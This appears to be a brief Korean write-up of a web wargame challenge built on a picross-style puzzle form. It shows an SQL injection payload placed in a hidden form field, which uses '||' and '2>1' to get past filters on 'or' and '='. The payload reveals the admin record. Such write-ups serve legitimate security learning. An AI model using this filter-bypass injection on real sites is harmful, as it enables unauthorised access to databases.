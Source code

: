 # 문제

```html
<form method=post action=index.php>
<input type=hidden name=answer value=1010100000011100101011111>name : <input type=text name=id maxlength=10 size=10><input type=submit value='write'>
```

피크로스 같은 퍼즐을 풀면 `id`를 입력하고 아래 처럼 등록되는 시스템이다

```
name : teat
answer : 1010100000011100101011111
ip : 122.199.199.70
```

## 풀이

풀이를 보지 않고서는 풀 수 없었다.

피크로스 퍼즐 풀이값을 직렬화해 문자열로 저장해 놓은 `answer` 필드에서 SQL Injection을 할수 있는데 왜 발생하는지 알수가 없었다. 대체 왜???

해킹은 삽질이란 것을 다시금 깨닫게 되는 시간이었다 하하

```html
<input type=hidden name=answer value=1010100000011100101011111 || 2>1
```

`value`에서 `or`을 필터링 하길래 저걸로 바꾸고 `=`도 필터링 하는것 같아 `2>1`로 바꿨다. 그러면 다음 페이지에서 나오는 기록같은게 `admin`것이 나온다.

```
name : admin
answer : new_sql_injection
ip : localhost
```

생각을 포기했다.